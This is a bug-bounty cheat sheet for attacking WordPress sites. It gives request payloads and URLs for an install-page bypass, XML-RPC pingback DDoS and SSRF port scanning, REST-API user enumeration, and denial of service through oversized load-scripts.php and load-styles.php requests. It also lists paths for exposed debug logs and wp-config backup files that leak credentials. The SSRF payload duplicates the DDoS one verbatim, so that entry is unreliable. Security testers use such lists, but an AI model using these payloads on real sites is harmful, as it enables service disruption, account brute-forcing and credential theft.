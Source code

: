 ## 1. Create database
``` 
/wp-admin with 403 status 
Bypass it using /wp-admin/setup-config.php?step=1
This will allow you to create a database
```

## 2. xmlrpc.php

This is one of the common issue on wordpress. To get some bucks with this misconfiguration you must have to exploit it fully, and have to show the impact properly as well.

## Detection
* visit site.com/xmlrpc.php
* Get the error message about POST request only
## Exploit
* Intercept the request and change the method GET to POST
* List all Methods
```
<methodCall>
<methodName>system.listMethods</methodName>
<params></params>
</methodCall>
```
* Check the pingback.ping mentod is there or not
* Perform DDOS
```
<methodCall>
<methodName>pingback.ping</methodName>
<params><param>
<value><string>http://<YOUR SERVER >:<port></string></value>
</param><param><value><string>http://<SOME VALID BLOG FROM THE SITE ></string>
</value></param></params>
</methodCall>
```
* Perform SSRF (Internal PORT scan only)
```
<methodCall>
<methodName>pingback.ping</methodName>
<params><param>
<value><string>http://<YOUR SERVER >:<port></string></value>
</param><param><value><string>http://<SOME VALID BLOG FROM THE SITE ></string>
</value></param></params>
</methodCall>
```
## 3. WP User Enumeration
This issue will only acceptable when target website is hiding their current users or they are not publically available. So attacker can use those user data for bruteforcing and other staff

## Detection
* 
```
visit site.com/wp-json/wp/v2/users/
```
* 
```
http://target.com/?author=1
```
* 
```
http://target.com/?rest_route=/wp/v2/users
```
* You will see json data with user info in response

## 4. Denial of Service via load-scripts.php
```
http://target.com/wp-admin/load-scripts.php?load=react,react-dom,moment,lodash,wp-polyfill-fetch,wp-polyfill-formdata,wp-polyfill-node-contains,wp-polyfill-url,wp-polyfill-dom-rect,wp-polyfill-element-closest,wp-polyfill,wp-block-library,wp-edit-post,wp-i18n,wp-hooks,wp-api-fetch,wp-data,wp-date,editor,colorpicker,media,wplink,link,utils,common,wp-sanitize,sack,quicktags,clipboard,wp-ajax-response,wp-api-request,wp-pointer,autosave,heartbeat,wp-auth-check,wp-lists,cropper,jquery,jquery-core,jquery-migrate,jquery-ui-core,jquery-effects-core,jquery-effects-blind,jquery-effects-bounce,jquery-effects-clip,jquery-effects-drop,jquery-effects-explode,jquery-effects-fade,jquery-effects-fold,jquery-effects-highlight,jquery-effects-puff,jquery-effects-pulsate,jquery-effects-scale,jquery-effects-shake,jquery-effects-size,jquery-effects-slide,jquery-effects-transfer,jquery-ui-accordion,jquery-ui-autocomplete,jquery-ui-button,jquery-ui-datepicker,jquery-ui-dialog,jquery-ui-draggable,jquery-ui-droppable,jquery-ui-menu,jquery-ui-mouse,jquery-ui-position,jquery-ui-progressbar,jquery-ui-resizable,jquery-ui-selectable,jquery-ui-selectmenu,jquery-ui-slider,jquery-ui-sortable,jquery-ui-spinner,jquery-ui-tabs,jquery-ui-tooltip,jquery-ui-widget,jquery-form,jquery-color,schedule,jquery-query,jquery-serialize-object,jquery-hotkeys,jquery-table-hotkeys,jquery-touch-punch,suggest,imagesloaded,masonry,jquery-masonry,thickbox,jcrop,swfobject,moxiejs,plupload,plupload-handlers,wp-plupload,swfupload,swfupload-all,swfupload-handlers,comment-reply,json2,underscore,backbone,wp-util,wp-backbone,revisions,imgareaselect,mediaelement,mediaelement-core,mediaelement-migrate,mediaelement-vimeo,wp-mediaelement,wp-codemirror,csslint,esprima,jshint,jsonlint,htmlhint,htmlhint-kses,code-editor,wp-theme-plugin-editor,wp-playlist,zxcvbn-async,password-strength-meter,user-profile,language-chooser,user-suggest,admin-bar,wplink,wpdialogs,word-count,media-upload,hoverIntent,hoverintent-js,customize-base,customize-loader,customize-preview,customize-models,customize-views,customize-controls,customize-selective-refresh,customize-widgets,customize-preview-widgets,customize-nav-menus,customize-preview-nav-menus,wp-custom-header,accordion,shortcode,media-models,wp-embed,media-views,media-editor,media-audiovideo,mce-view,wp-api,admin-tags,admin-comments,xfn,postbox,tags-box,tags-suggest,post,editor-expand,link,comment,admin-gallery,admin-widgets,media-widgets,media-audio-widget,media-image-widget,media-gallery-widget,media-video-widget,text-widgets,custom-html-widgets,theme,inline-edit-post,inline-edit-tax,plugin-install,site-health,privacy-tools,updates,farbtastic,iris,wp-color-picker,dashboard,list-revisions,media-grid,media,image-edit,set-post-thumbnail,nav-menu,custom-header,custom-background,media-gallery,svg-painter
```
[h1 report](https://hackerone.com/reports/752010)

## 5. Denial of Service via load-styles.php
```
http://target.com/wp-admin/load-styles.php?&load=common,forms,admin-menu,dashboard,list-tables,edit,revisions,media,themes,about,nav-menus,widgets,site-icon,l10n,install,wp-color-picker,customize-controls,customize-widgets,customize-nav-menus,customize-preview,ie,login,site-health,buttons,admin-bar,wp-auth-check,editor-buttons,media-views,wp-pointer,wp-jquery-ui-dialog,wp-block-library-theme,wp-edit-blocks,wp-block-editor,wp-block-library,wp-components,wp-edit-post,wp-editor,wp-format-library,wp-list-reusable-blocks,wp-nux,deprecated-media,farbtastic
```
## 6. Log files exposed
```
http://target.com/wp-content/debug.log
```
## 7. Backup file wp-config exposed
```
.wp-config.php.swp
wp-config.inc
wp-config.old
wp-config.txt
wp-config.html
wp-config.php.bak
wp-config.php.dist
wp-config.php.inc
wp-config.php.old
wp-config.php.save
wp-config.php.swp
wp-config.php.txt
wp-config.php.zip
wp-config.php.html
wp-config.php~
```


